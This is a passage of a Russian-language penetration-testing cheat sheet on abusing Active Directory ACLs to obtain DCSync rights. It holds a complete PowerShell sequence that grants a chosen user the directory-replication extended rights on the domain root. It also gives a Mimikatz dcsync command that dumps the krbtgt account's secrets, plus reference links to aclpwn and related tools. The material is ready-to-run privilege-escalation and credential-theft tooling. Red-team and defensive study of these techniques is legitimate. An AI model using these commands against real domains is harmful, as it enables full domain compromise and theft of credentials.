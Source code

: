 1. [www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound](https://www.slideshare.net/DirkjanMollema/aclpwn-active-directory-acl-exploitation-with-bloodhound)
2. [www.puckiestyle.nl/aclpwn-py/](https://www.puckiestyle.nl/aclpwn-py/)


#### Manually

1. Получить ACL для корневого объекта (домен).
2. Получить SID для аккаунта, которому нужно дать DCSync.
3. Создать новый ACL и выставить в нем права "Replicating Directory Changes" (GUID `1131f6ad-...`) и "Replicating Directory Changes All" (GUID `1131f6aa-...`) для SID из п. 2.
4. Применить изменения.

```
PS > Import-Module ActiveDirectory
PS > $acl = get-acl "ad:DC=example,DC=local"
PS > $user = Get-ADUser snovvcrash
PS > $sid = new-object System.Security.Principal.SecurityIdentifier $user.SID
PS > $objectguid = new-object Guid 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2
PS > $identity = [System.Security.Principal.IdentityReference] $sid
PS > $adRights = [System.DirectoryServices.ActiveDirectoryRights] "ExtendedRight"
PS > $type = [System.Security.AccessControl.AccessControlType] "Allow"
PS > $inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance] "None"
PS > $ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > $objectguid = new-object Guid 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2
PS > $ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule $identity,$adRights,$type,$objectGuid,$inheritanceType
PS > $acl.AddAccessRule($ace)
PS > Set-acl -aclobject $acl "ad:DC=example,DC=local"
```

1. [github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md](https://github.com/gdedrouas/Exchange-AD-Privesc/blob/master/DomainObject/DomainObject.md)


#### Mimikatz

```
PS > lsadump::dcsync /domain:EXAMPLE.LOCAL /user:krbtgt@EXAMPLE.LOCAL
```

1. [adsecurity.org/?p=1729](https://adsecurity.org/?p=1729)
2. [pentestlab.blog/2018/04/09/golden-ticket/](https://pentestlab.blog/2018/04/09/golden-ticket/)


#### MISC

* [www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory](https://www.slideshare.net/harmj0y/the-unintended-risks-of-trusting-active-directory)
* [github.com/fox-it/Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)
* [gist.github.com/monoxgas/9d238accd969550136db](https://gist.github.com/monoxgas/9d238accd969550136db)




[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)